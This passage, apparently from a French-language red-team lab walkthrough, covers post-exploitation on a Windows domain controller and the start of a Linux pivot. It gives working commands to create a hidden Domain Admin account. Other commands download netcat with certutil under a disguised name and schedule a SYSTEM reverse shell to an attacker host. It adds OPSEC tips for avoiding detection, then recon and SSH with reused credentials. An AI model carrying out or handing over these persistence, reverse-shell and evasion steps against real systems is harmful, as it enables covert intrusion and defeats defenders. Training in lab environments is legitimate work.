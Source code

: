    Vous avez maintenant un shell SYSTEM sur le contrôleur de domaine.

2. **Création d'un utilisateur administrateur caché**

   Créez un compte administrateur discret pour la persistance :

   ```cmd
   # Créer un utilisateur caché
   net user support_admin P@ssw0rd123! /add /domain
   net group "Domain Admins" support_admin /add /domain
   
   # Masquer l'utilisateur des listes
   reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v support_admin /t REG_DWORD /d 0 /f
   ```

3. **Mise en place d'une tâche planifiée pour la persistance**

   Créez une tâche planifiée qui établit une connexion inverse à intervalles réguliers :

   ```cmd
   # Créer un répertoire caché
   mkdir C:\Windows\System32\Tasks\Microsoft\Windows\PLA\System
   
   # Télécharger un reverse shell
   certutil -urlcache -split -f "http://192.168.56.10/nc64.exe" C:\Windows\System32\Tasks\Microsoft\Windows\PLA\System\diagtrack.exe
   
   # Créer une tâche planifiée
   schtasks /create /tn "\Microsoft\Windows\PLA\System\SystemDiagnosticTask" /tr "C:\Windows\System32\Tasks\Microsoft\Windows\PLA\System\diagtrack.exe 192.168.56.10 4444 -e cmd.exe" /sc daily /st 18:00 /ru "SYSTEM" /f
   ```

   **Point d'attention OPSEC :** Cette tâche planifiée utilise un nom plausible et est placée dans un sous-répertoire légitime pour éviter la détection. Dans un environnement réel, vous devriez utiliser des noms encore plus discrets et des chemins moins suspects.

### Phase 4 : Compromission du serveur pivot Linux (15 minutes)

1. **Reconnaissance du serveur pivot**

   Depuis le contrôleur de domaine, effectuez une reconnaissance du serveur pivot :

   ```cmd
   ping 192.168.56.102
   nmap -p 22,80,443 192.168.56.102
   ```

2. **Tentative d'accès SSH avec les credentials récupérés**

   Essayez de vous connecter au serveur pivot avec les credentials découverts précédemment :

   ```bash
   # Sur Kali
   ssh devops@192.168.56.102
   # Mot de passe: DevPassword2023!
   ```
